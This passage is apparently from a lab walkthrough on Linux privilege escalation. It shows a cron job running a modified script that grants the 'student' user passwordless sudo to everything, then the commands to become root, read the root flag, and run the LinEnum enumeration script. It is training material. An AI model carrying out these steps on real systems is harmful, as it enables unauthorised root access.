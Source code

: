 Now, we will wait for one minute to allow the cron job to execute the `copy.sh` script where we have added our code to gain root access.

After one minute, we will check the current sudoers list.

`sudo -l`:
```
Matching Defaults entries for student on ip-10-2-22-112:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User student may run the following commands on ip-10-2-22-112:
    (root) NOPASSWD: /etc/init.d/cron
    (root) NOPASSWD: ALL ←
```

We can observe that we can use sudo to access all resources on the system.


Let's switch to the root user using sudo.
`sudo su`.

`id`:
```
uid=0(root) gid=0(root) groups=0(root)
```

`ls -l /root`:
```
total 8
-rw-r--r-- 1 root    root      33 Jan 21  2022 flag ←
drwxr-xr-x 3 student student 4096 Jan 21  2022 snap
```

`cat /root/flag`:
```
697914df7a07bb9b718c8ed258150164 ←
```

`exit`.

**Step 1C**.

It is time-consuming to check all possible misconfiguration flaws for the privilege escalation. There are many good bash scripts which are useful for automation.
One of them is **LinEnum** (present in `/opt` folder).

Let's run to find all the information about the system.
We would expect a lot of output, so we'll save all the result into an output file.

`/opt/LinEnum/LinEnum.sh > /home/student/linenum_output.txt`
`cat /student/home/linenum_output.txt`

Now, based on the output information, we can find a way to access the root.

---
---
